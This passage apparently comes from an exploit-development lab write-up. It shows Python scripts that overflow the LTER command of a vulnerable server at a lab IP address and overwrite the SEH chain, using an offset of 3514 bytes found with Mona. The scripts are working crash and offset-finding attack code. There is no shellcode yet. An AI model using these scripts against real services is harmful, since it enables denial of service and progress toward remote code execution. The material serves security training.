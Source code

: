If we send our `A` value buffer we overwrite both 4 byte components of the SEH chain. 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

buffer = 'A' * 4000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

![](/assets/images/CTP/LTERsehoverwrite.JPG)

After using Mona to determine the offsets, we see that we overwrite SEH at 3514 bytes. So our new payload looks like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

buffer = 'A' * 3514
buffer += 'B' * 4
buffer += 'C' * 4
buffer += 'D' * (4000 - 3514 - 4 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

And we can verify that we have overwritten SEH appropriately:

![](/assets/images/CTP/LTERsehoffset.JPG)
